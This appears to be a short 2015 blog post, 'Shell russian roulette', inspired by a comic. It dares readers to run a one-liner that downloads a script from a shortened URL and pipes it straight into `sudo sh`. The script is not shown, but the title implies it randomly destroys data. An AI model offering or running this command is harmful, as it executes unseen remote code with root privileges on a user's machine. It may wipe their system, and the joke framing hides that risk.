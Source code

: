 ```yaml
---
title: "Shell russian roulette"
tags: "shell,Рекомендую"
date: "2015-12-16"
---
```


Inspired by this comics

[![Strip-Roulette-russe-650-finalenglish](images/Strip-Roulette-russe-650-finalenglish.jpg)](http://stepansuvorov.com/blog/wp-content/uploads/2015/12/Strip-Roulette-russe-650-finalenglish.jpg)

I decided to make it even more simple and put script on [github](https://github.com/stevermeister/sh/blob/master/russian-roulette.sh).

Would you dare to play?

```
curl -L http://tinyurl.com/r0u1ette| sudo sh
```
